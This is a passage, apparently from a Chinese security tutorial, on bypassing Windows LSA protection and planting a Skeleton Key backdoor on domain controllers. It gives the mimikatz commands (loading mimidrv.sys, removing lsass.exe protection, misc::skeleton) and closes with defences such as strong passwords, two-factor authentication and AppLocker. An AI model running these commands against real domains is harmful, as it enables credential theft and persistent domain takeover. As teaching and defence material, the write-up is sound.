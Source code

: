```plain
windows  8.1
windows server 2012 R2
```

#### [绕过 LSA](#toc_lsa)

该功能需要 mimidrv.sys 文件

mimikatz 命令

```plain
#！bash
privilege::debug
!+
!processprotect /process:lsass.exe /remove
misc::skeleton
```

导入驱动文件 mimidrv.sys 后 即可绕过 LSA protection

[![image-20220530202305112.png](assets/1698894253-074af7b7fb705936aa3a6e22448ddab5.png)](https://storage.tttang.com/media/attachment/2022/06/17/1ed48053-837e-4b17-912d-92109bdf70aa.png)

**Skeleton Key 防御措施**

-   域管理员用户要设置强密码，确保恶意代码不会在域控制器中执行。
-   在所有域用户中启用双因子认证，例如智能卡认证。
-   启动应用程序白名单（例如 AppLocker），以限制 mimikatz 在域控制器中的运行。
